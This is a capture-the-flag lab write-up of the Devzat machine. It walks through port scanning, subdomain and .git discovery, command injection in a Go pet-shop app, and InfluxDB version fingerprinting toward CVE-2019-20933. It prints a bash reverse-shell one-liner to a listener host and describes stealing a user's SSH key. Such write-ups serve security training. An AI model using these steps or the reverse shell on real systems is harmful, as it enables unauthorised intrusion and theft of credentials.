From the nmap results, we can see that this is a webserver with an unidentified app on port 8000. Based on the scan on port 8000, it seems to be using a go library called ssh2go
Nmap scan report for devzat.htb (10.10.11.118) Host is up (0.022s latency). Not shown: 997 closed tcp ports (reset) PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA) | 256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA) |_ 256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519) 80/tcp open http Apache httpd 2.4.41 |_http-title: devzat - where the devs at |_http-server-header: Apache/2.4.41 (Ubuntu) 8000/tcp open ssh (protocol 2.0) | fingerprint-strings: | NULL: |_ SSH-2.0-Go | ssh-hostkey: |_ 3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA) 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service : SF-Port8000-TCP:V=7.92%I=7%D=7/5%Time=62C472E7%P=x86_64-pc-linux-gnu%r(NUL SF:L,C,"SSH-2\.0-Go\r\n"); No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ). TCP/IP fingerprint: OS:SCAN(V=7.92%E=4%D=7/5%OT=22%CT=1%CU=34441%PV=Y%DS=2%DC=T%G=Y%TM=62C47312 OS:%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS( OS:O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11 OS:NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN( OS:R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R= OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F= OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD= OS:S) Network Distance: 2 hops Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel TRACEROUTE (using port 1720/tcp) HOP RTT ADDRESS 1 21.19 ms 10.10.14.1 2 21.28 ms devzat.htb (10.10.11.118) OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Initial scanning shows the box has a website up. Trying to navigate to the website redirects us to http://devzat.htb. After updating our /etc/hosts, we are able to see the webpage.
trent@TMDeal-kali[Devzat]$ cat /etc/hosts 10.10.14.1 devzat.htb

Not much about the site itself is interesting. However, there is a message at the bottom informing the reader that they are invited to try out their chat app.

When running the instructed command, you may receive an error about no matching host key type. This error can be resolved by adding a few lines to ~/.ssh/config
Host devzat.htb HostName devzat.htb User dev PubkeyAcceptedAlgorithms +ssh-rsa HostkeyAlgorithms +ssh-rsa
Then we can run the command to gain access to the chat app

With just the basic level of access we have, there is not much that can be done with the app right now. We will come back to this at a later point
Taking a look back at port 80, since we needed to add an entry to /etc/hosts, it may be worthwhile to scan for subdomains. We will scan for subdomains using Gobuster.

Our scan finds one valid subdomain at http://pets.devzat.htb The homepage is an incomplete CRUD app.

The most that can be done is adding a pet to the pet inventory, but its not hooked up to a database so nothing saves. Running Gobuster to find other endpoints shows that http://pets.devzat.htb/.git/ is publicly readable. We can grab the contents of the folder with git-dumper, but we can also just download the directory with a tool like wget.
trent@TMDeal-kali[Devzat]$ git-dumper http://pets.devzat.htb/.git pets ... ... ... trent@TMDeal-kali[Devzat]$ ls -al pets/ total 9776 drwxr-xr-x 5 trent trent 4096 Jul 26 17:44 . drwxrwxrwt 28 root root 12288 Jul 26 17:44 .. drwxr-xr-x 2 trent trent 4096 Jul 26 17:44 characteristics drwxr-xr-x 7 trent trent 4096 Jul 26 17:44 .git -rw-r--r-- 1 trent trent 25 Jul 26 17:44 .gitignore -rw-r--r-- 1 trent trent 88 Jul 26 17:44 go.mod -rw-r--r-- 1 trent trent 163 Jul 26 17:44 go.sum -rw-r--r-- 1 trent trent 4420 Jul 26 17:44 main.go -rwxr-xr-x 1 trent trent 9957033 Jul 26 17:44 petshop -rwxr-xr-x 1 trent trent 123 Jul 26 17:44 start.sh drwxr-xr-x 4 trent trent 4096 Jul 26 17:44 static
This is probably the source code for the pets web application. Inside of main.go, there is a line
where that takes out input without sanitizing it and passes it to exec.Command. This means we can
inject our own commands into this command and gain remote code execution

To test if we can properly execute code, we will just see if we can get the contents of /etc/passwd
 
Now that we now we can actually exploit this, we can execute a callback to a netcat listener.
We base64 encrypt the command bash -i >& /dev/tcp/10.10.14.7/4444 0>&1 and then decrypt and
execute it in a one liner. This is done to avoid messing up the payload with special characters like
" or '.
 
From there, we can grab Patrick's ssh key for a better shell experience

After running linpeas, we can see that there are some ports that are open locally that we could not previously access

Right now, we do not know what these ports do, so we will look around some more.
We can see Patrick's chat log in their app by logging into it while logged into the machine

Looking up info on Influxdb shows that it runs on port 8086 by default. We can check the version of Influxdb running by making a HEAD request with curl on port 8086

Looking up "Influxdb 1.7.5" on google shows results for CVE-2019-20933.